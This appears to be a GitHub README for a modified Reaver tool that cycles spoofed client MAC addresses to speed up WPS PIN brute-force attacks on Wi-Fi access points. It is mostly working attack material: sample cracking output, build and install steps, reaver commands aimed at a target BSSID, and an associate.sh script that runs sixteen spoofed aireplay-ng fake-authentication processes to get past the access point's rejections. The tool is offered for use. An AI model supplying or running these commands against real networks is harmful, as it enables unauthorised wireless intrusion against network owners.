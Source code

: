 REAVER WPS WITH MAC CHANGER
==============

REAVER WPS modified version with MAC Address last character changer to speed up the attack.

Well, some times the AP will reject the "EAPOL Request" after a success pin try. I made some tests with simultaneous reaver instances running with different MACs (the -m argument), and when one instance gets "WARNING: Receive timeout occurred", the other gets "Received identity request" and continue the cracking.

The problem of this method is: The reaver tool doesn't support simultaneous instances (ok, I read the FAQ about it). If you run two reaver instances, by example, the two instances will try the same pin at the same time.

I made some changes on the reaver source code. Look the output after my changes:

```
[+] Using MAC BC:99:47:B7:03:E9
[+] Trying pin 00485678
[+] Sending EAPOL START request
[!] WARNING: Receive timeout occurred
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[+] Received identity request
[+] Sending identity response
[+] Received identity request
[+] Sending identity response
[+] Received identity request
[+] Sending identity response
[+] Received M1 message
[+] Sending M2 message
[+] Received M1 message
[+] Received M1 message
[+] Received M1 message
[+] Received M3 message
[+] Sending M4 message
[+] Received M3 message
[+] Received M3 message
[+] Received WSC NACK
[+] Sending WSC NACK
[+] Using MAC BC:99:47:B7:03:E8
[+] Trying pin 00495677
[+] Sending EAPOL START request
[!] WARNING: Receive timeout occurred
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[+] Received identity request
[+] Sending identity response
[+] Received M1 message
[+] Sending M2 message
[+] Received M1 message
[+] Received M1 message
[+] Received M1 message
[+] Received M3 message
[+] Sending M4 message
[+] Received M3 message
[+] Received M3 message
[+] Received M3 message
[+] Received WSC NACK
[+] Sending WSC NACK
[+] Using MAC BC:99:47:B7:03:E7 
[+] Trying pin 00505673
...
```

On the first try, reaver is using the client MAC "BC:99:47:B7:03:E9" (it is not a real MAC, I'm just using for the example), on the second, "BC:99:47:B7:03:E8", on the third, "BC:99:47:B7:03:E7". Well, after the use of the MAC "BC:99:47:B7:03:E0", reaver will start again on "BC:99:47:B7:03:E9".

The numbers:

With this method: (13 seconds/pin)
Without this method: (31 seconds/pin)

How to install
==============

Extract the tarball

```bash
    tar -xzvf reaver-1.4-mac-changer.tar.gz
```

Install Required Libraries and Tools

```bash
    sudo apt-get install libpcap-dev sqlite3 libsqlite3-dev libpcap0.8-dev
```

Build Reaver

```bash
    cd reaver-1.4-mac-changer
    cd src
    ./configure
    make
```

Install Reaver

```bash
    sudo make install
```

How to use
==============

```bash
reaver -i mon0 -b AA:BB:CC:DD:EE:FF -M
```

or

```bash
reaver -i mon0 -b AA:BB:CC:DD:EE:FF --mac-changer
```

What I recommend:

```bash
reaver -i mon0 -b AA:BB:CC:DD:EE:FF --mac-changer --no-nacks --win7 --no-associate -vv
```

To associate more effectively, I recommend to use aireplay-ng tool. Create a "associate.sh" file, and put this inside:

```bash
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:ZF  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:ZE  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:ZD  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:ZC  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:ZB  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:ZA  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:Z9  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:Z8  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:Z7  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:Z6  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:Z5  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:Z4  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:Z3  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:Z2  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:Z1  &
aireplay-ng mon0 -1 120 -a AA:BB:CC:DD:EE:FF --ignore-negative-one -h ZZ:ZZ:ZZ:ZZ:ZZ:Z0  &
```

PS: Change AA:BB:CC:DD:EE:FF to the BSSID and ZZ:ZZ:ZZ:ZZ:ZZ:Z to your MAC (without the last digit).

Before using reaver tool, just type "sh associate.sh". To kill all the aireplay-ng, type "killall aireplay-ng".

If you have success using this method, please, share with us to improve more and more the reaver WPS.

Author
==============

[@gabrielrcouto](http://www.twitter.com/gabrielrcouto)


License
==============

[MIT License](http://zenorocha.mit-license.org/)
